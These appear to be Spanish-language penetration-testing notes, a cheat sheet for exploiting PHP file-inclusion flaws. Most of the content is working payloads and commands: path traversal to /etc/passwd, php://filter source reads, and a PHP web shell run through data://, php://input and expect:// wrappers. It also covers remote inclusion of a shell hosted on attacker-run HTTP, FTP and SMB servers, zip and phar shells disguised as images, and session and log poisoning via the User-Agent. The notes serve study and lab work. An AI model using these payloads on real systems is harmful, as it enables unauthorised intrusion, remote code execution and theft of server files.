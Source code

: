 ### LFI

intentar movimientos de path transversal:
tricks:
agregar una / si el parametro responde solo a archivos con una nomenclatura: "lang_".
agregar recursividad para que, al limpiar, el filtro elimine los bad chars permitiendonos generar uno nuevo: ....// el filtro
buscará "../" este patrón, al eliminarlo nos quedará nuevamente un "../"
encodear en unrl una o más veces el payload.

#### filtros php:

podemos usar filtros php para poder leer el código fuente de archivos: php://filter/read=convert.base64-encode/resource=config

podemos encontrar posibilidades de path transversal en la carga de objetos externos dentro del html:

        <img src="/loadImage?filename=218.png">

podríamos utilizar esta funcionalidad encontrada en el img dentro de la barra de búsqueda:

        https://insecure-website.com/loadImage?filename=../../../etc/passwd

mismo ejemplo en windows:

        https://insecure-website.com/loadImage?filename=..\..\..\windows\win.ini


Cuando abrimos un archivo alojado en el servidor como por ejemplo, una imagen (accediendo al archivo en sí) podemos interceptar
la request e intentar, si hay una variable de entorno que lo llama, un path transversal

Aveces la funcionalidad que carga los archivos tiene una validación de extensión para determinar que el file es el correcto.
esto podemos bypassearlo agregando algunos chars como 00%:
        filename=../../../etc/passwd%00.png

############### RCE

podemos lograr rce utilizando el filtro "data" si el parametro allow_url_include se encuentra habilitado:
data://text/plain;base64,"web shell en base64"&"parametro de la shell"="comando"
data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd="comando"

para métodos POST podemos utilizar el filtro "input":
ejemplo en curl:
curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id" | grep uid

En algunos casos los servidores pueden tener instalado el filtro expect que permite en sí mismo correr comandos:
ejemplo en curl:
curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"




#########################################RFI

Una buena forma de probar RFI es inducando un servicio interno, como por ejemplo "http:127.0.0.1:80/index.php". De esta manera
si el RFI es posible, cargará la página principal en el espacio debido.

Luego podemos levantar distintos tipos de servidores donde alijamos una shell php.

http:  sudo python3 -m http.server <LISTENING_PORT> (http://<OUR_IP>/shell.php&cmd=id)
ftp: sudo python -m pyftpdlib -p 21 (ftp://<OUR_IP>/shell.php&cmd=id)
smb: impacket-smbserver -smb2support share $(pwd) (este se usaría: \\<OUR_IP>\share\shell.php&cmd=whoami)


########################fileuploads

###################SUbir imagenes envenenadas
podemos subir imagenes envenenadas y aprovechar el LFI para acceder a las mismas con ejecución de código:

http://<SERVER_IP>:<PORT>/index.php?language=./profile_images/shell.gif&cmd=id


################Zip FILES
podemos aprovechar también, si se encuentra permitida, la subida de archivos zip para crear un archivo Zip con 
extensión JPG:
echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php

http://<SERVER_IP>:<PORT>/index.php?language=zip://./profile_images/shell.jpg%23shell.php&cmd=id


############### PHAR files
Podemos aprovechar también los PHAR:

creamos una shell con el siguiente código:
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

$phar->stopBuffering();

luego:
php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg

luego lo subimos y ejecutamos:
http://<SERVER_IP>:<PORT>/index.php?language=phar://./profile_images/shell.jpg%2Fshell.txt&cmd=id



###########################LOG POISONING:

podemos envenenar un logs sobre los que tenga privilegios de lectura:


############PHP SESSION POISONING:

CUando un sitio usa una cookie PHPSESSID, guarda estos archivos en el backend:
en linux: /var/lib/php/sessions/
windows: C:\Windows\Temp\
si la cookie tiene el valor "el4ukv0kqbvoirg7nkp4dncpk3" será guardada en /var/lib/php/sessions/sess_el4ukv0kqbvoirg7nkp4dncpk3

Si podemos acceder a nuestra session por medio de LFI, podemos ver los parametros que guarda y relacionarlos con los parametros
que podemos controlar dentro del sitio, ejemplo: si el sitio nos permite cambiar de lenguaje, este sería un excelete parametro.
podríamos cambiar el valor de el parametro con LFI por cualquier otro dato:
http://<SERVER_IP>:<PORT>/index.php?language=session_poisoning
luego ingresar nuevamente al log de la sesión y ver si este último dato se encuentra en el mismo.
Podríamos entonces agregar una shell simple:
http://<SERVER_IP>:<PORT>/index.php?language=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E
y luego evocarla desde el FLI
http://<SERVER_IP>:<PORT>/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd&cmd=id


#############Server log poisoning

apache y ngnx guardan varios logs como access.log y error.log

el access.log guarda request hechas al server, y entre todos los campos podemos encontrar el user-agent. Si podemos acceder a
este log, con modificar el user-agent en una request podemos acceder a una shell.
Ngnx permite esta lectura a usuarios con bajos privilegios, mientras que apache solo a admins o roots(aunque en versiones viejas
o mal configuradas puede funcionar)
los logs de apache están guardados por default en:
linux : /var/log/apache2/
windows: C:\xampp\apache\logs\

mientras que en nginx:
linux: /var/log/nginx/
windows: C:\nginx\log\

podriamos visitar alguno de estos logs envenenando el user agent, luego cuando los volvamos a visitar, podríamos agregar el
parametro de la shell y tirar comandos


podemos probar esto en otros logs como:

    /var/log/sshd.log
    /var/log/mail
    /var/log/vsftpd.log
Dependiendo de a qué tengamos acceso.


También podemos probar envenenar los proc /proc/self/environ o /proc/self/fd/(N) (N es un número usualmente de 0 a 50)

################################## Automatización:




Podemos buscar parámetros con fuff y luego probar con el intruder de burp la lista "SecLists/Fuzzing/LFI/LFI-Jhaddix.txt"
Parametros:
ffuf -w /usr/share/wordlists/SecLists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?FUZZ=value'

valores:
ffuf -w /usr/share/wordlists/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=FUZZ'


###Relative paths:

Algunas veces no sabémos cómo llegar a un archivo envenenado que subimos. podemos usar listas específicas con fuff para
determinar el path de de la web:
ffuf -w /opt/useful/SecLists/Discovery/Web-Content/default-web-root-directory-linux.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ/index.php' -fs 2287
Esta lista tiene su par en windows en el mismo directorio.

###log paths:

listas recomendadas:

https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Linux
https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Windows
ffuf -w ./LFI-WordList-Linux:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ' -fs 2287




